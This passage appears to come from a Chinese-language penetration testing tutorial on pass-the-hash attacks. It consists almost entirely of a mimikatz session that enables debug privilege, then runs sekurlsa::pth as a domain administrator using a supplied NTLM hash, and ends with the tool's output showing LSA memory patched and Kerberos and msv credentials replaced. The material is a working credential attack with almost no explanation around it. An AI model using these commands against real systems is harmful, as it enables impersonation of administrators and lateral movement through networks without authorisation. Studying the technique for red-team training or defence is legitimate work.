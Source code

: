 ## 2、使用mimikatz进行PTH
```plain
mimikatz # privilege::debug
Privilege '20' OK
mimikatz # sekurlsa::pth /user:administrator /domain:10.10.4.21 /ntlm:27d86657f458a28aeed03655ba6a6137
user    : administrator
domain  : 10.10.4.21
program : cmd.exe
impers. : no
NTLM    : 27d86657f458a28aeed03655ba6a6137
  |  PID  14384
  |  TID  9656
  |  LSA Process is now R/W
  |  LUID 0 ; 238641759 (00000000:0e39625f)
  \_ msv1_0   - data copy @ 0000021374CE5AE0 : OK !
  \_ kerberos - data copy @ 0000021376281318
   \_ aes256_hmac       -> null
   \_ aes128_hmac       -> null
   \_ rc4_hmac_nt       OK
   \_ rc4_hmac_old      OK
   \_ rc4_md4           OK
   \_ rc4_hmac_nt_exp   OK
   \_ rc4_hmac_old_exp  OK
   \_ *Password replace @ 0000021375370FC8 (32) -> null

mimikatz #
```
